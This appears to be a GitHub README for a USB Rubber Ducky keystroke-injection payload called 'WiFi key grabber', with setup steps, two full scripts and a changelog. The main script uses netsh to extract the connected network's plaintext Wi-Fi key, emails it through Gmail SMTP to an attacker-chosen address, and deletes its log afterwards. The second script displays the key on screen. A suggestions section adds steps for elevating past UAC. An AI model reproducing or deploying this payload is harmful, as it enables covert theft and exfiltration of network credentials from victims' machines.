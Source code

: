 ## Change the following things;
* **ACCOUNT**: Your **gmail account**
* **PASSWORD**: Your **gmail password**
* Make sure your Gmail password does not start with a capital letter, in some locales this causes the quote to be merged with the letter; 'Ä' '"A'
* Make sure you have allowed less secure apps to login on your google account; 
* https://support.google.com/accounts/answer/6010255
* **RECEIVER**: The email you want to send the contents of 'log' to

## Succesfully tested on;
* Windows 10
* Windows 8.1
* Windows 7, requires UAC

## **Code**;
* Gmail version;
```
REM Title: WiFi key grabber
REM Author: SiemH
REM Version: 7
REM Description: 
REM 20 sec payload that finds the SSID, Network type, 
REM Authentication type and network key, saves those to 'log' 
REM and creates an SMTP server and emails the contents of 'log'
REM using the specified Gmail account to the specified receiver.

REM FASE 1: Preparation
DELAY 3000
REM --> Minimize all windows
WINDOWS d
DELAY 250
REM --> Open cmd
WINDOWS r
DELAY 500
STRING cmd
ENTER
DELAY 200

REM FASE 2: Information gathering
REM --> Find the SSID and set 'a'
STRING cd "%USERPROFILE%\Desktop" & for /f "tokens=2 delims=:"  %a in ('netsh wlan show interface ^| findstr "SSID" ^| findstr /v "BSSID"') do set a=%a
ENTER
STRING set a="%a:~1%"
ENTER
REM --> Get raw info and set 'a'
STRING netsh wlan show profiles %a% key=clear | findstr /c:"Network type"  /c:" Authentication"  /c:"Key Content"| findstr /v "broadcast"| findstr /v "Radio">>a
ENTER
REM --> Find the Network type in the raw info and set 'b'
STRING for /f "tokens=3 delims=: "  %a in ('findstr "Network type"  a') do set b=%a
ENTER
REM --> Find the auth type in the raw info and set 'c'
STRING for /f "tokens=2 delims=: "  %a in ('findstr " Authentication"  a') do set c=%a
ENTER
REM --> Find the key content in the raw info and set 'd'
STRING for /f "tokens=3 delims=: "  %a in ('findstr "Key Content"  a') do set d=%a
ENTER
REM --> Delete raw info / 'a'
STRING del a
ENTER
REM --> Write all info to log
STRING echo ssid: %a%>>log & echo type: %b%>>log & echo auth: %c%>>log & echo key: %d%>>log
ENTER
STRING echo If all variables are empty there was no wireless connection>>log
ENTER
STRING echo If only the key variable is empty the payload requires UAC>>log
ENTER

REM FASE 3: Phone home
REM --> Create an SMTP server with specified credentials and send log to specified receiver
STRING powershell
ENTER
STRING $SMTPServer = 'smtp.gmail.com'
ENTER
STRING $SMTPInfo = New-Object Net.Mail.SmtpClient($SmtpServer, 587)
ENTER
STRING $SMTPInfo.EnableSsl = $true
ENTER
REM --> Google account login, password must start with a lowercase letter
STRING $SMTPInfo.Credentials = New-Object System.Net.NetworkCredential('ACCOUNT@gmail.com', 'PASSWORD')
ENTER
STRING $ReportEmail = New-Object System.Net.Mail.MailMessage
ENTER
STRING $ReportEmail.From = 'ACCOUNT@gmail.com'
ENTER
REM --> Log receiver
STRING $ReportEmail.To.Add('RECEIVER@gmail.com')
ENTER
STRING $ReportEmail.Subject = 'WiFi key grabber'
ENTER
STRING $ReportEmail.Body = (Get-Content log | out-string)
ENTER
STRING $SMTPInfo.Send($ReportEmail)
ENTER
DELAY 1000
STRING exit
ENTER
DELAY 500

REM FASE 4: Final cleanup
REM --> Delete log and exit
STRING del log & exit
ENTER
```

* 'Echo' version;
```
REM Title: WiFi key grabber
REM Author: SiemH
REM Version: 1
REM Description: 
REM 13 sec payload that shows the SSID, Network type, Authentication type and network key.

REM FASE 1: Preparation
DELAY 3000
REM --> Minimize all windows
WINDOWS d
DELAY 250
REM --> Open cmd
WINDOWS r
DELAY 500
STRING cmd
ENTER
DELAY 200

REM FASE 2: Information gathering
REM --> Find the SSID and set 'a'
STRING cd "%USERPROFILE%\Desktop" & for /f "tokens=2 delims=:"  %a in ('netsh wlan show interface ^| findstr "SSID" ^| findstr /v "BSSID"') do set a=%a
ENTER
STRING set a="%a:~1%"
ENTER
REM --> Get raw info and set 'a'
STRING netsh wlan show profiles %a% key=clear | findstr /c:"Network type"  /c:" Authentication"  /c:"Key Content"| findstr /v "broadcast"| findstr /v "Radio">>a
ENTER
REM --> Find the Network type in the raw info and set 'b'
STRING for /f "tokens=3 delims=: "  %a in ('findstr "Network type"  a') do set b=%a
ENTER
REM --> Find the auth type in the raw info and set 'c'
STRING for /f "tokens=2 delims=: "  %a in ('findstr " Authentication"  a') do set c=%a
ENTER
REM --> Find the key content in the raw info and set 'd'
STRING for /f "tokens=3 delims=: "  %a in ('findstr "Key Content"  a') do set d=%a
ENTER
REM --> Delete raw info / 'a'
STRING del a
ENTER

REM FASE 3: Show results and exit
STRING cls & echo ssid: %a% & echo type: %b% & echo auth: %c% & echo key: %d% & pause & exit
ENTER
```

## Change log;
1. Original
2. Bug fixes and narrowed commands
3. Send contents of log instead the file itself
4. Removed the space as delimiter
5. Added the STRING set A="%A:~1%" to be able to use SSID's with spaces as well
6. Removed .txt extensions, made variables and file names lower case, removed unnecessary text from log and added some more comments
7. Added some spaces, quote interferance; sometimes 'Ä' instead of '"A'

## Suggestions;
**If you have any suggestions, write them down here.**
- DELAY 50 between powershell exit and cmd exit
- If the SSID has a space like "TPLINK HOME" then 'a' would be set to "TPLINK"; error "Profile "TPLINK" is not found on the system" **FIXED**
- Added delay after sending SMTP message, to make sure the 'exit' and 'del log' are executed
- The cmd prompt must be elevated to get any passwords.  If you change from using the WINDOWS r to using the search menu for "cmd" and pressing ctrl+shift+enter you can get a UAC prompt.  From there you'd need to alt+Y to get the elevated prompt. You can also use the run box but with the following command in Win7 and later:
powershell Start-Process cmd -Verb runAs
- **This is only true for Windows 7 systems, use the code below.**
```
REM FASE 1: Preparation
DELAY 3000
REM --> Minimize all windows
WINDOWS d
DELAY 250
REM --> Open cmd as administrator
CONTROL ESCAPE
DELAY 1000
STRING cmd
DELAY 1000
CTRL-SHIFT ENTER
DELAY 1000
ALT y
DELAY 500
```

## To-do;
* Add empty variable detection which replaces the empty variable with 'variable not obtained'